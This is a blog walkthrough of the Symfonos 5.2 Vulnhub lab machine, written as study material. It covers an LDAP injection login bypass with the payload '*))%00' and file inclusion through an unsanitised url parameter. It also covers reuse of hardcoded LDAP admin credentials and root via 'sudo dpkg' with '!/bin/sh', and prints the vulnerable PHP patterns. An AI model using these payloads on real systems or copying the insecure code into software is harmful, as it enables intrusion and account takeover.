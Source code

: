 ```yaml
---
layout: post
title: Symfonos 5.2 Vulnhub Walkthrough
subtitle: 
tags: [oscp, vulnhub]
---
```


This is a walkthrough for Symfonos 5.2 Vulnhub machine. The machine can be found at [Symfonos 5.2 Vulnhub](https://www.vulnhub.com/entry/symfonos-52,415/). I really wanted to write a walkthrough on this box because I learnt a lot about LDAP Injections and insecure coding practices from it. So, let's dive right into it!

## Enumeration
First, using the `autorecon` tool, I looked at the nmap scan of the machine. The following ports were open:

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfhCNEk87fJIphggJ/K7+9vu2pm9OmRmuYZ4tIPDCr42LgzGp6EIWpz5FXo98F1iq1pNASEjcMqqpCxuhhOFSlf3pPA00Rka4/0pmlmtIl5jSE6cpexIXzINzLC6YXDt59JFuOi0PgsbBYbIWsRdNxPboBDELeilgNairkx3wakNr39Di1SmrpQyQ54EbpusuNZPZL9eBjgEScXrx+MCnA4gyQ+VwEbMXDBfC6q5zO+poZQ1wkAqg9+LFvd2RuwGB+06yFfVn84UpBh4Fxf+cpnKG0zJalRfI8ZhUgnvEnU7cIp8Yb94pUzXf1+m1Vsau8+0myI0aaljHt4RfSfI3T
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHUvkrh2jAIVELCTy59BYzC3B0S4/jKkYOmS6N7anjrxvHW59thSrs7+3pvVhM5X0Og+FV4zkrMMfvw5jwTygeA=
|   256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKxA6/wOoEAbxcDJX8zdCYFQzulYfpxK4n4e7bUSUeeC
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     syn-ack ttl 63 OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl? syn-ack ttl 63
```

From the ports, LDAP sticks out particularly. Perhaps that may come in useful later. 

### Enumerating Port 80
Running a quick gobuster shows that the following `.php` pages are available.

![gobuster scan](../assets/img/symfonos5/gobuster.png)

Navigating to `/admin.php` reveals a login form. However, after trying common SQL Injection payloads, this form does not seem be vulnerable to SQLi.

My initial thought process was to enumerate LDAP for potential users and possibly brute-force the form with a known user. 
However, running the following command did not yield any results. Perhaps we are not allowed to access it without the right credentials. 

```bash
ldapsearch -h 192.168.204.141 -x
``` 

## Exploitation 
A while later, the idea dawned on me that this could be LDAP Injection. I had heard of the concept prior to doing this box, but did not know much about it. As such, I went to read up a bit on LDAP Injections. 

### A Short Primer on LDAP Injections
Lightweight Directory Access Protocol (LDAP) is a protocol that manages directory information. Directory information is stored in a tree-like hierarchical structure. Information is modelled as an entry which contains attributes, and entries are typically real world organizations, people and objects. 

LDAP Injections occur in a similar manner to SQL injections, when user input is used directly in a query without adequate sanitization. 

One of the common vectors of an LDAP Injection is an authentication form like in this box. The vulnerable code often takes a shape as follows:
```php
$filter = "(&(uid=$username)(userPassword=$password))";
$result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);
```

As one can see, `$username` and `$password` are taken directly from user input and inserted into the query, allowing for manipulation through the use of `*` or `%00` to access all records and terminate the query prematurely etc. 

### Back to Symfonos 5
After suspecting this form could be vulnerable to LDAP Injection, I sent the request to Burp Intruder and ran an attack on the username parameter with various common LDAP Injection payloads. 

As seen from the picture, a few of them returned with positive results, with one of the payloads being `*))%00`. 

In response to the query above, such a payload would pre-maturely terminate the query.
```php
$filter = "(&(uid = *))%00 #ignore the rest because it terminates at null-byte
```

As such, this results in a trivial authentication bypass and we are in to the portal! 

### LFI? gfi!
Navigating around the pages, we immediately see that the url of the `portraits.php` page looks vulnerable to LFI, with a url as follows.

```bash
http://192.168.204.141/home.php?url=http://127.0.0.1/portraits.php
```

Using the php filter, I was able to extract the source code for `home.php` in base64. Upon decoding, we can see the vulnerable portion of code to LFI was as follows

```php
if (!empty($_GET["url"]))
{
    $r = $_GET["url"];
    $result = file_get_contents($r);
}
```
Seems like it'll be vulnerable to both LFI and RFI! My first thought process was try a reverse shell but all it did was print my reverse shell payload on the screen. 

### Back to LDAP
Ahhh, LDAP strikes again. 

Using the same techniques to retrieve the source code for `home.php`, I retrieved `admin.php` and saw something interesting in the code for the login form: admin credentials for LDAP!

```php
$bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

    if (!$bind)
    {
        return false;
    }

    $filter = "(&(uid=$username)(userPassword=$password))";
    $result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);
```

As such, we can re-run `ldapsearch` to see if it gives us any new information. This time, I ran it through nmap.

```bash
nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local",ldap.password=qMDdyZh3cT6eeAWD' 192.168.204.141
```

And we get Zeus' credentials!

We can then SSH into Zeus' box. 

## Privilege Escalation (nothing more almighty than the ruler of all gods but ROOT)
A quick check on Zeus' sudo privileges reveals the following.

Aha! A quick search in GTFOBins later, and we can achieve root via the following:
```bash
sudo -l dpkg
!/bin/sh
```

## Learning Points
1. LDAP Injections were my key takeaway from this box. Thanks to this box, I now know basic insecure coding practices that could potentially lead to LDAP Injections. 

2. `ldapsearch` does not always have to be used at the initial stages of our enumeration. Sometimes, we may need to dig around for adequate credentials first. However, LDAP often will reveal sensitive information about users!

3. LFI/RFI is not just about reading sensitive files on the host machine or trying to get a reverse shell! Sometimes, we should check the source code or `config.php` for any sensitive information that we may be able to access. 

Hope you enjoyed this little write-up! To more learning ahead :)